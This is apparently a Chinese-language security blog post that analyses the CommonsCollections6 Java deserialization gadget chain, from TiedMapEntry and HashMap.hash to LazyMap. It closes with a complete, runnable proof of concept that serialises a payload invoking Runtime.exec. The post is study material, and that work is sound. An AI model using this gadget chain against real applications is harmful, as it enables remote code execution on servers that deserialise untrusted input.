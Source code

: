 # [Java安全] CommonsCollections6链分析




# 前言

之前我们分析了CC1，从简化版开始学习，再到完整分析CC1，再学习了动态代理和LazyMap的利用链构造，但是都有一个缺陷就是版本限制，只能适用于8u71之前的链子，因为AnnotationInvocationHandler的readObject方法发生了改变，CC6就是为了高版本Java的利用问题



# CC6

这里我还是跟着p牛的Java安全漫谈来学习，这里p牛是简化了ysoserial的CC6利用链，gadget是这样的

![image-20221002161146283](https://tuchuang.huamang.xyz/img/image-20221002161146283.png)

我们从后往前看，可以发现还是走了`LazyMap.get()`方法，在CC1中，我们是通过动态代理Map，从`AnnotationInvocationHandler.readObject`调用`this.memberValues.entrySet()`然后到`AnnotationInvocationHandler.invoke()`再调用到get方法

而高版本的readObject逻辑已经修改了，不能走这条路了，观察CC6的gadget，这里走了`org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()`

我们跟进TiedMapEntry去看看，执行了`this.map.get(this.key)`，我们实例化的时候是可以操控map和key的的

而且他的`hashCode`方法又执行了`this.getValue()`

```java
public class TiedMapEntry implements Entry, KeyValue, Serializable {
    private static final long serialVersionUID = -8453869361373831205L;
    private final Map map;
    private final Object key;

    public TiedMapEntry(Map map, Object key) {
        this.map = map;
        this.key = key;
    }
		// ...
    public Object getValue() {
        return this.map.get(this.key);
    }
		// ...
    public int hashCode() {
        Object value = this.getValue();
        return (this.getKey() == null ? 0 : this.getKey().hashCode()) ^ (value == null ? 0 : value.hashCode());
    }
  	// ...
```

所以现在的目的就变成了找到哪里调用了`TiedMapEntry#hashCode`，看到gadget是调用了`HashMap.hash()`方法这其实就是接上了之前学习的[URLDNS链子](https://blog.huamang.xyz/urldns)

在HashMap的readObject中调用了

```java
putVal(hash(key), key, value, false, false)
```

跟进hash方法，调用了key.hashCode()

```java
    static final int hash(Object key) {
        int h;
        return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
    }
```

所以我们**控制key为TiedMapEntry的对象**即可

# POC

首先是创建好我们的恶意Map

```java
Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
        new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0]}),
        new InvokerTransformer("exec", new Class[] { String.class }, new String[] {"/System/Applications/Calculator.app/Contents/MacOS/Calculator" }),
};
Transformer transformerChain = new ChainedTransformer(transformers);
Map innerMap = new HashMap();
Map outerMap = LazyMap.decorate(innerMap, transformerChain);
```

然后就是这次的主角TiedMapEntry登场了，我们需要他的hashCode方法，调用到他的hashCode方法的途径是HashMap的readObject里面的hash(key)

所以我们实例化TiedMapEntry，把恶意的Map传入作为map参数，key是啥无所谓，因为要进ChainedTransformer，然后再把这个TiedMapEntry**作为key传入**HashMap中，这样就调用到了`TiedMapEntry#hashCode()`

```java
TiedMapEntry tme = new TiedMapEntry(outerMap,"key");
HashMap expMap = new HashMap();
expMap.put(tme,"value");
```

## 注意点1

看ysoserial代码可以发现，他构造ChainedTransformer的时候，是这样的，多了一个

`new ConstantTransformer(1)` 

![image-20221002195409931](https://tuchuang.huamang.xyz/img/image-20221002195409931.png)

起初我没觉得有什么，后来到了分析CC6的链子的时候，我发现会报错

原因是java.lang.UNIXProcess不能被序列化

![image-20221002195706140](https://tuchuang.huamang.xyz/img/image-20221002195706140.png)

这里我调试跟进去看了一下，如果POC和之前一样的话，这里是返回UNIX对象的

![image-20221002200458055](https://tuchuang.huamang.xyz/img/image-20221002200458055.png)

因为CC6的最后需要把恶意的代码加进一个新的Map里面去，然后再对这个Map进行序列化，所以这里就会因为UNIXProcess没有基础serializable而触发报错了

![image-20221002200537033](https://tuchuang.huamang.xyz/img/image-20221002200537033.png)

所以我们的解决办法就是在后面再加上一个`new ConstantTransformer(1)`，这样返回的就是可序列化的对象了

![image-20221002200921497](https://tuchuang.huamang.xyz/img/image-20221002200921497.png)



## 注意点2



链子基本就是这样了，但是有一点要注意的是，如果直接拿expMap去生成序列化数据，**是不会RCE的**

原因在这，当我们进入LazyMap的get方法的时候，他这个判断条件过不去，不会进入执行factory.transform方法

![image-20221002183348955](https://tuchuang.huamang.xyz/img/image-20221002183348955.png)

原因是在构造新的Map的时候，我们执行了一次`expMap.put(tme,"value");`，把恶意数据put进Map中，在执行这个方法的时候会走进LazyMap的get方法，再插入一个数据进去，`{"key",1}`

![image-20221002202725130](https://tuchuang.huamang.xyz/img/image-20221002202725130.png)

所以当我们反序列化以后的恶意的outerMap要去执行get的时候，就会因为里面有值而过不了判断执行不了transform

![image-20221002202619587](https://tuchuang.huamang.xyz/img/image-20221002202619587.png)

解决办法就是在`expMap.put(tme,"value");`的后面去把outerMap的内容删除即可

最后的POC

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.util.HashMap;
import java.util.Map;

public class CC6 {
    public static void main(String[] args) throws ClassNotFoundException, IOException {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new String[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"}),
                new ConstantTransformer(1),
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        TiedMapEntry tme = new TiedMapEntry(outerMap,"key");
        HashMap expMap = new HashMap();
        expMap.put(tme,"value");
        outerMap.remove("key");
        FileOutputStream fileInputStream = new FileOutputStream(new File("./1.txt"));
        ObjectOutputStream oos = new ObjectOutputStream(fileInputStream);
        oos.writeObject(expMap);
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(new File("./1.txt")));
        Object o = (Object) ois.readObject();
    }
}

```


